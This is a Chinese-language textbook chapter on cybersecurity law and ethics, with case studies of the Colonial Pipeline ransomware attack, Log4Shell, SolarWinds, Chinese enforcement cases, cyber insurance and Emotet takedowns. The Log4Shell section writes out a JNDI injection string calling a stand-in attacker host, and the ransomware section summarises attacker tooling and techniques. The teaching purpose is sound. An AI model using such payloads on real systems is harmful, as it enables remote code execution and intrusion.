

## 4.7 Colonial Pipeline勒索软件事件

2021年5月发生的Colonial Pipeline勒索软件事件，是美国历史上最具影响力的网络安全事件之一。这起事件不仅直接导致美国东海岸燃油供应中断，更深刻改变了美国乃至全球对关键基础设施网络安全的认知、立法和实践。作为网络安全法律与道德章节的核心案例，它集中展现了勒索软件攻击的法律困境、赎金支付的道德争议、政府与私营部门的协作模式，以及网络安全立法的加速演进。

### 4.7.1 背景：Colonial Pipeline的战略地位

Colonial Pipeline是美国最大的成品油管道系统，其战略地位远超一般企业：

| 维度 | 具体数据 |
|------|----------|
| 管道长度 | 约8,850公里（5,500英里） |
| 覆盖范围 | 从得克萨斯州休斯敦到新泽西州林登 |
| 服务区域 | 美国东海岸17个州和华盛顿特区 |
| 运输量 | 每日约1亿加仑（约250万桶）成品油 |
| 市场份额 | 承担美国东海岸约45%的燃油供应 |
| 员工规模 | 约1,000名员工 |
| 收入规模 | 年收入约15亿美元 |

这条管道输送的不仅是汽油和柴油，还包括航空燃油、军用燃料和取暖油。一旦停运，东海岸的交通、航空、军事和日常生活都将受到严重影响。正因如此，Colonial Pipeline在2013年就被美国国土安全部认定为"关键基础设施"。

### 4.7.2 攻击全过程：从入侵到瘫痪

#### 攻击者画像：DarkSide

DarkSide是一个以"勒索软件即服务"（RaaS）模式运营的网络犯罪组织，具有以下特征：

- **归属地**：据多方情报分析，核心成员位于俄罗斯及独联体国家
- **运营模式**：采用加盟制，向附属攻击者提供勒索软件工具，按比例分成（通常DarkSide抽取20%-25%）
- **技术特征**：双重勒索——既加密数据，又窃取数据威胁公开
- **"商业"形象：曾发布新闻稿式声明，声称不攻击医院、学校、政府等"非营利"目标
- **洗钱渠道：通过Bitcoin混币服务和暗网交易所转移资金

#### 攻击时间线



#### 攻击入口分析

攻击的起因令人警钟长敲——攻击者使用的是一个**已泄露但未启用多因素认证（MFA）的VPN账户密码**。具体细节如下：

1. **初始访问**：攻击者通过暗网购买到的凭证，使用一个属于Colonial Pipeline员工的旧VPN账户密码登录。该账户在公司合并后遗留，未被禁用，且未配置MFA。
2. **横向移动**：进入内网后，攻击者利用标准的Active Directory侦察工具（如BloodHound、Mimikatz）获取域管理员权限，在网络中自由移动。
3. **数据窃取**：在部署加密载荷前，攻击者先窃取了约100GB的公司数据，用于双重勒索。
4. **加密部署**：通过组策略（GPO）在全网范围内部署DarkSide勒索软件，加密Windows系统和文件服务器。
5. **OT系统影响**：虽然勒索软件主要针对IT系统，但Colonial Pipeline管理层担心攻击可能蔓延到运营技术（OT）/工业控制系统（ICS），因此主动关闭了整条管道。

#### 关键技术细节

```plaintext
DarkSide勒索软件技术特征：

加密算法：
├── 文件加密：Salsa20流密码（高速加密）
├── 密钥加密：RSA-1024非对称加密
├── 性能优化：仅加密文件头部1MB（加速大文件加密）
└── 多线程：支持并行加密

传播方式：
├── 初始：通过RDP或VPN凭证登录
├── 侦察：BloodHound、ADFind、Advanced IP Scanner
├── 提权：Mimikatz、ProcDump窃取凭据
├── 横向：PsExec、WMI、SMB共享
├── 持久化：计划任务、注册表Run键
└── 部署：通过GPO批量推送加密载荷

勒索信：
├── 赎金金额：约75比特币（当时约440万美元）
├── 支付时限：7天内（逾期翻倍）
├── 联系方式：Tor隐藏服务站点
├── 威胁：不支付则公开窃取的数据
└── "客服"：提供在线聊天支持解密问题
```

### 4.7.3 赎金支付的法律与道德争议

#### 支付决策过程

Colonial Pipeline在攻击发生后数小时内就做出了支付赎金的决定。这一决策涉及多方博弈：

**支持支付的理由：**
- 管道每停运一天，东海岸损失约数亿美元的经济活动
- 解密工具虽然慢，但能恢复部分关键数据
- 窃取的数据面临被公开的威胁，涉及商业机密和客户数据
- 备份系统的恢复速度无法满足紧急需求

**反对支付的理由：**
- FBI长期建议不支付赎金，因为这会激励更多攻击
- 支付资金可能流入受制裁的国家或组织（OFAC合规风险）
- 支付后无法保证攻击者真正删除窃取的数据
- 可能面临洗钱共犯的法律风险

#### OFAC合规警告

2020年10月，美国财政部外国资产控制办公室（OFAC）发布了一份具有里程碑意义的合规指南：

> 向受制裁的个人、实体或地区支付赎金的组织，**可能**违反《国际紧急经济权力法》（IEEPA）或《与敌贸易法》（TWEA），即使支付者不知道收款方的受制裁身份。

这意味着，即使受害者不知情，向受制裁实体支付赎金也可能面临**最高约33万美元/笔**的民事罚款，甚至刑事指控。Colonial Pipeline支付赎金时，DarkSide的成员尚未被正式列入制裁名单，但这一灰色地带的风险始终存在。

#### FBI追回赎金：加密货币并非不可追踪

2021年6月7日，美国司法部宣布成功追回了Colonial Pipeline支付的约63.7枚比特币（当时价值约230万美元）。这是FBI首次成功追回勒索软件赎金，意义重大：

```plaintext
赎金追踪与追回过程：

支付阶段（2021年5月8日）：
├── Colonial Pipeline支付75枚比特币（约440万美元）
├── 通过Coinbase交易所购买
└── 转入DarkSide指定的钱包地址

追踪阶段（2021年5月-6月）：
├── FBI通过区块链分析追踪资金流向
├── 利用比特币公开账本的透明特性
├── 追踪到一个FBI已掌握私钥的中间钱包
└── 关键：加密货币的匿名性被高估

追回阶段（2021年6月7日）：
├── FBI通过法院授权获取搜查令
├── 使用私钥从中间钱包转移资金
├── 追回约63.7枚比特币（约230万美元）
└── 占支付总额的约85%

法律意义：
├── 证明加密货币赎金可以被追踪和追回
├── 对勒索软件犯罪产生震慑效果
├── 展示执法机构的区块链分析能力
└── 提升受害者配合执法的意愿
```

#### 赎金支付的道德分析框架

| 分析维度 | 支付赎金 | 不支付赎金 |
|----------|----------|------------|
| **短期经济影响** | 快速恢复运营，减少经济损失 | 可能面临长时间停运，损失更大 |
| **长期安全生态** | 鼓励犯罪分子继续攻击，形成恶性循环 | 打击犯罪分子经济来源，减少攻击动机 |
| **数据安全** | 可能获得解密工具，但数据可能仍被公开 | 数据必然面临公开风险 |
| **行业影响** | 其他企业被鼓励效仿支付 | 行业形成不支付的统一立场 |
| **法律风险** | OFAC合规风险、洗钱风险 | 无直接法律风险 |
| **保险影响** | 可能获得理赔 | 保险理赔范围可能受限 |
| **声誉影响** | 可能被视为"助长犯罪" | 可能被视为"不负责任" |

### 4.7.4 美国政府的系统性响应

#### 拜登总统第14028号行政命令

Colonial Pipeline事件直接推动拜登总统于2021年5月12日签署了《改善国家网络安全》行政命令（EO 14028），这是美国网络安全立法史上最全面的行政命令之一：

```plaintext
第14028号行政命令核心要求：

1. 移除网络安全信息共享障碍
   ├── 联邦合同商必须报告网络事件
   ├── IT/OT服务提供商获得有限免责保护
   └── 建立联邦政府与私营部门的信息共享机制

2. 联邦政府网络安全现代化
   ├── 全面部署零信任架构
   ├── 加速向安全云服务迁移
   ├── 强制MFA和加密传输
   └── 建立"网络安全审查委员会"（类似NTSB）

3. 供应链安全提升
   ├── 建立软件物料清单（SBOM）要求
   ├── 关键软件安全开发标准
   ├── 供应链安全评级机制
   └── 政府采购的安全软件要求

4. 事件检测与响应能力
   ├── 联邦机构部署EDR（端点检测与响应）
   ├── 建立集中式日志分析能力
   ├── 网络安全事件响应标准化
   └── 关键基础设施保护加强

5. 国际合作
   ├── 与盟友共享威胁情报
   ├── 推动全球网络安全规范
   └── 打击海外网络犯罪避风港
```

#### TSA安全指令

美国运输安全管理局（TSA）在事件后发布了两项针对管道运营商的紧急安全指令：

- **TSA Security Directive Pipeline-2021-01**：要求管道运营商报告网络安全事件，指定网络安全协调员，进行漏洞评估
- **TSA Security Directive Pipeline-2021-02**：要求管道运营商制定网络安全实施计划，包括应急响应计划、关键系统保护措施

这是TSA历史上首次对管道行业发布具有约束力的网络安全指令，标志着关键基础设施网络安全监管从"自愿"向"强制"的转变。

### 4.7.5 对网络安全行业的深远影响

#### 勒索软件生态的演变

Colonial Pipeline事件成为勒索软件发展的分水岭：

```plaintext
事件前后的勒索软件生态变化：

事件前（2020年-2021年5月）：
├── 勒索软件被视为"犯罪问题"
├── 执法力度有限
├── 支付赎金是常见做法
├── 保险理赔覆盖赎金
└── 关键基础设施保护依赖自愿

事件后（2021年5月至今）：
├── 勒索软件被视为"国家安全威胁"
├── 多国联合打击行动增加
├── 赎金支付面临法律风险
├── 保险政策收紧，提高免赔额
├── 关键基础设施强制合规要求
├── DarkSide被迫解散（2021年5月14日）
└── BlackMatter等后继组织出现
```

#### 关键基础设施保护的范式转变

| 维度 | 事件前 | 事件后 |
|------|--------|--------|
| **监管态度** | 自愿性最佳实践 | 强制性合规要求 |
| **信息共享** | 有限、被动 | 强制报告、主动共享 |
| **OT/IT融合** | 安全边界模糊 | 明确分段和隔离要求 |
| **应急准备** | 各企业自行制定 | 标准化应急响应计划 |
| **供应链安全** | 信任供应商 | 验证和审计供应商 |
| **零信任采用** | 概念讨论阶段 | 加速实际部署 |
| **国际合作** | 信息共享有限 | 联合打击行动常态化 |

### 4.7.6 安全研究者的启示

对于网络安全从业者而言，Colonial Pipeline事件提供了多层面的教训：

**技术层面：**
- 一个泄露的密码足以瘫痪价值数十亿美元的基础设施——**多因素认证不是可选项，而是必需品**
- 遗留账户和合并后的权限清理是高风险盲区
- OT系统的隔离（air-gapping）在理论上完美，但在IT/OT融合趋势下越来越难实现
- 备份策略必须包含定期恢复演练，确保在紧急情况下可用

**管理层面：**
- 网络安全投资不应被视为成本，而应视为业务连续性保障
- 事件响应计划需要经过实战演练，而非仅停留在纸面上
- 安全审计应覆盖遗留系统、第三方访问和合并后的整合环节

**法律层面：**
- 勒索软件受害者面临多维度法律风险（OFAC、数据保护法、合同义务）
- 支付赎金前必须进行合规审查
- 与执法机构的早期合作可以提升追回赎金的可能性
- 网络安全保险的覆盖范围需要仔细审查，特别是"战争行为"和"政府行为"排除条款

---

## 4.8 重大漏洞披露争议案例

### 4.8.1 案例一：Log4Shell漏洞披露事件（CVE-2021-44228）

#### 背景

2021年12月，Apache Log4j日志库中被发现存在一个严重的远程代码执行漏洞（CVE-2021-44228），被称为Log4Shell。Log4j是全球使用最广泛的Java日志框架之一，被嵌入在数百万应用程序、云服务和企业软件中。由于影响范围极广且利用难度极低（仅需一行JNDI查找字符串），Log4Shell被认为是近十年来最严重的安全漏洞之一。

#### 漏洞技术原理

Log4Shell的核心问题在于Log4j的JNDI（Java Naming and Directory Interface）查找功能。当应用程序将用户可控的输入写入日志时，攻击者可以注入形如 `${jndi:ldap://attacker.com/exploit}` 的字符串，触发以下攻击链：

1. 攻击者在HTTP请求头、用户名、表单字段等位置注入恶意JNDI字符串
2. 应用程序将该字符串写入Log4j日志
3. Log4j解析 `${jndi:...}` 语法，向攻击者控制的LDAP/RMI服务器发起请求
4. 服务器返回恶意Java类的引用
5. Java运行时加载并执行该恶意类——实现远程代码执行

利用难度：CVSS评分10.0（最高），攻击复杂度极低，无需认证，可远程触发。

#### 事件时间线

| 日期 | 事件 | 关键细节 |
|------|------|----------|
| 2021-11-24 | 漏洞首次在Apache JIRA报告 | 由阿里巴巴云安全团队的陈兆军提交，被标记为中等严重程度 |
| 2021-12-01 | 漏洞细节在GitHub上公开 | 安全研究者开始在小范围内讨论 |
| 2021-12-09 | PoC在社交媒体广泛传播 | 攻击活动急剧增加，Apache发布安全公告 |
| 2021-12-10 | CVE-2021-44228正式发布 | CVSS 10.0，各厂商紧急发布补丁 |
| 2021-12-11 | CISA发布紧急指令 | 要求联邦机构在规定时间内修复 |
| 2021-12-至2022-01 | 大规模扫描和利用 | 多个变种漏洞（CVE-2021-45046等）被发现，全球紧急修复 |

#### 法律与道德争议

**争议一：漏洞披露时间线**

从漏洞发现（11月24日）到大规模利用（12月9日）仅间隔15天。支持快速披露者认为用户知情权优先；反对者认为厂商未获得足够的修复窗口。行业共识倾向于"协调披露"（Coordinated Disclosure），即在公开前给厂商90天修复期，但Log4Shell的特殊性在于其影响范围极广且已被独立发现并小范围利用。

**争议二：开源软件安全责任**

Log4j由志愿者维护，维护团队长期人手不足。这一事件引发核心讨论：开源维护者是否有法律责任？目前多数国家法律对开源软件提供免责保护（如美国UCITA），但越来越多的声音呼吁建立开源安全基金和支持机制。美国白宫在2022年召集了主要科技公司讨论开源安全，Linux基金会随后成立了Alpha-Omega项目。

**争议三：供应链安全责任**

当一个嵌入在数百万系统中的基础库出现漏洞时，谁应负责——库的维护者、使用该库的软件开发商，还是最终用户？Log4Shell推动了"软件物料清单"（SBOM）概念的落地。美国第14028号行政命令明确要求联邦政府采购的软件必须提供SBOM。

### 4.8.2 案例二：SolarWinds供应链攻击事件

#### 背景

2020年12月，安全公司FireEye（现为Mandiant，已被Google收购）在调查自身被入侵的过程中，发现SolarWinds公司的Orion IT监控软件被植入后门（后命名为SUNBURST）。这是已知的最具战略意义的供应链攻击之一，影响了包括美国财政部、国土安全部、国务院在内的多个联邦机构，以及约18,000个企业和政府组织。

#### 攻击链分析

| 阶段 | 时间 | 技术细节 |
|------|------|----------|
| **初始入侵** | 2019年10月 | 攻击者入侵SolarWinds的开发环境，获取代码库访问权限 |
| **代码注入** | 2020年3月 | SUNBURST后门被注入Orion软件的构建流程，而非直接修改源代码 |
| **软件分发** | 2020年3月-6月 | 受污染的Orion更新（版本2019.4 HF 5到2020.2.1）通过官方渠道分发 |
| **选择性激活** | 2020年6月起 | 后门仅在高价值目标中激活，避免触发安全警报 |
| **横向渗透** | 2020年6月-12月 | 攻击者使用SUNBURST在约100个组织中深入渗透，窃取数据和凭据 |
| **发现** | 2020年12月8日 | FireEye发现自身Red Team工具被盗，追溯到SolarWinds |

攻击者被美国情报界归因于俄罗斯对外情报局（SVR），即APT29（Cozy Bear）。

#### 法律后果

**对SolarWinds的影响：**
- **SEC调查**：美国证券交易委员会调查SolarWinds是否违反证券法中关于信息披露的要求。2023年10月，SEC对SolarWinds及其CISO Timothy Brown提起诉讼，指控其在事件前夸大了公司的安全实践。
- **股东诉讼**：股东提起集体诉讼，指控公司隐瞒安全漏洞。
- **客户信任危机**：大量联邦和企业客户转向替代产品，公司收入下降。
- **业务重组**：SolarWinds剥离了部分业务线，重组为私有公司。

**对整个行业的影响：**
- 供应链安全从"理论关注"变为"实际优先事项"
- 美国联邦政府加速推进零信任架构（Zero Trust Architecture）
- 软件物料清单（SBOM）从概念走向强制要求
- 软件构建安全（Build Security）受到前所未有的重视，推动了SLSA（Supply chain Levels for Software Artifacts）等框架的发展

### 4.8.3 案例三：中国网络安全执法案例

#### 案例A：某互联网公司数据泄露事件（2022年）

**案件概况：** 某互联网公司因未履行数据安全保护义务，导致数百万用户数据泄露，被处以5000万元罚款。

**法律依据与处罚：**

| 法律条款 | 内容要求 | 处罚依据 |
|----------|----------|----------|
| 《网络安全法》第21条 | 网络安全等级保护制度 | 网络运营者应按等级保护要求履行安全义务 |
| 《网络安全法》第42条 | 数据安全保护义务 | 防止数据泄露、毁损，发生事件应立即采取补救措施并报告 |
| 《数据安全法》第27条 | 数据安全保护义务 | 数据处理活动应建立健全数据安全管理制度 |
| 《个人信息保护法》第51条 | 个人信息安全措施 | 采取加密、去标识化等安全技术措施 |

**处罚详情：** 罚款5000万元，责令限期整改，相关业务暂停运营，相关责任人受到处罚。这一案例表明中国在数据安全执法方面日趋严格。

#### 案例B：非法侵入计算机系统案（2021年）

**案件概况：** 被告张某利用系统漏洞非法侵入多家知名互联网公司系统，窃取用户信息和商业机密出售牟利，造成经济损失超过100万元。

**法律依据：**
- **《刑法》第285条**——非法侵入计算机信息系统罪：违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役
- **《刑法》第286条**——破坏计算机信息系统罪：违反国家规定，对计算机信息系统功能进行删除、修改、增加、干扰，造成计算机信息系统不能正常运行，后果严重的，处五年以下有期徒刑或者拘役
- **《网络安全法》第27条**——禁止非法侵入他人网络、干扰他人网络正常功能、窃取网络数据

**判决：** 有期徒刑3年，罚款10万元。证据包括服务器日志、交易记录等电子证据。

#### 案例C：安全公司违规渗透测试案（2023年）

**案件概况：** 某安全服务公司在对客户进行渗透测试时，超出授权范围操作，导致客户系统中断服务。

**违规行为分析：**

| 违规环节 | 具体问题 | 法律后果 |
|----------|----------|----------|
| 授权范围 | 超出书面授权范围进行测试 | 触犯《网络安全法》第27条 |
| 影响评估 | 未评估测试对生产系统的影响 | 合同违约，承担民事赔偿 |
| 应急预案 | 缺乏紧急停止机制 | 加重处罚情节 |
| 信息披露 | 未及时向客户报告异常 | 违反服务合同约定 |

**处罚：** 吊销营业执照，罚款200万元。

**教训总结：** 渗透测试从业者必须严格遵守授权范围，测试前获取书面授权，避免影响系统可用性，建立完善的测试流程和应急预案，并考虑购买专业责任保险。

---

## 4.9 网络安全保险

### 4.9.1 网络安全保险类型与覆盖范围

网络安全保险已从一个新兴险种发展为企业风险管理的标准组成部分。主要分为以下三类：

| 保险类型 | 覆盖范围 | 典型场景 |
|----------|----------|----------|
| **第一方保险** | 数据泄露响应费用、业务中断损失、网络勒索损失（赎金）、数据恢复费用、声誉管理费用 | 企业自身遭受攻击的直接损失 |
| **第三方保险** | 隐私责任（数据泄露诉讼）、网络安全责任、媒体责任、监管罚款、合同责任 | 因安全事件导致客户或合作伙伴的损失 |
| **专业责任保险** | 渗透测试责任、安全咨询责任、安全产品责任、事件响应责任 | 安全服务提供商的专业失误 |

### 4.9.2 保险理赔案例分析

**案例：某公司勒索软件攻击保险理赔**

某公司遭受勒索软件攻击，赎金要求50比特币（约200万美元），业务中断72小时，部分数据无法恢复，总损失估算500万美元。

理赔明细：

| 理赔项目 | 金额（万美元） | 说明 |
|----------|---------------|------|
| 赎金支付 | 200 | 保险公司通过第三方支付 |
| 业务中断损失 | 150 | 72小时运营损失 |
| 数据恢复费用 | 50 | 专业数据恢复公司费用 |
| 事件响应费用 | 80 | 外部取证和应急响应团队 |
| 法律费用 | 20 | 法律咨询和合规审查 |
| **总理赔** | **500** | 全额赔付（保额1000万美元） |

**关键经验：**
- 保险覆盖范围需要逐条审查，特别注意"战争行为"、"政府行为"和"恐怖主义"排除条款
- 免赔额（deductible）和赔付上限需要与企业风险承受能力匹配
- 事件响应流程需要提前与保险公司协调，部分保险要求使用指定的事件响应供应商
- 定期更新保险政策以覆盖新兴威胁（如AI驱动的攻击、供应链攻击）

---

## 4.10 国际网络安全合作

### 4.10.1 国际执法合作案例：Emotet僵尸网络全球打击

Emotet是全球最具破坏性的僵尸网络之一，自2014年出现以来，以垃圾邮件和恶意附件为初始感染向量，随后分发TrickBot、Ryuk等其他恶意软件，造成数十亿美元损失。

**2021年1月全球联合打击行动：**

| 参与国家 | 执法机构 | 角色 |
|----------|----------|------|
| 美国 | FBI | 调查协调、证据收集 |
| 英国 | NCA | 僵尸网络分析 |
| 荷兰 | Politie | 控制服务器接管 |
| 德国 | BKA | 基础设施查封 |
| 法国 | Gendarmerie | 区域协调 |
| 加拿大 | RCMP | 北美协调 |
| 立陶宛 | Lietuvos policija | 东欧基础设施 |
| 乌克兰 | Національна поліція | 嫌疑人追踪 |

**法律框架：**
- 《布达佩斯网络犯罪公约》（2001年）——全球第一个专门针对网络犯罪的国际条约
- 双边司法协助条约（MLAT）
- 国际刑警组织（INTERPOL）协调机制
- 欧洲刑警组织（Europol）技术支持

### 4.10.2 国际网络安全标准合作机制

| 组织 | 职责 | 中国参与度 |
|------|------|-----------|
| ISO/IEC JTC 1/SC 27 | 信息安全、网络安全和隐私保护标准（50+成员） | 积极参与，主导多项标准 |
| 国际电信联盟（ITU-T SG17） | 电信和ICT安全标准（X.800系列） | 深度参与 |
| FIRST | 事件响应和安全团队论坛（500+ CERT成员） | 多个团队参与 |
| APCERT | 亚太地区CERT协调（联合演练、信息共享） | 核心成员 |

### 4.10.3 国际合作的关键挑战

尽管国际合作在打击网络犯罪方面取得了显著成效，但仍面临诸多挑战：

- **管辖权冲突**：网络犯罪的跨境特性与国家主权之间的张力——当攻击者位于不合作国家时，执法行动几乎无法推进
- **证据获取困难**：电子证据的跨境调取涉及多国法律程序，耗时漫长
- **法律标准差异**：各国对"网络犯罪"的定义和处罚标准不一，影响引渡和起诉
- **技术能力差距**：发展中国家的执法机构缺乏足够的技术能力和资源
- **政治因素**：地缘政治紧张局势（如俄乌冲突）直接影响网络安全合作机制的有效性

---

这些案例共同构成了一个完整的网络安全法律与道德知识体系。从Colonial Pipeline的勒索软件困境，到Log4Shell的漏洞披露争议，从SolarWinds的供应链攻击，到中国的网络安全执法实践——每一个案例都提醒我们：在进行安全研究和职业活动时，必须始终在法律框架内行事。理解法律边界不仅是保护自己的需要，也是职业责任的一部分。网络安全从业者既是技术专家，也是社会信任的守护者。
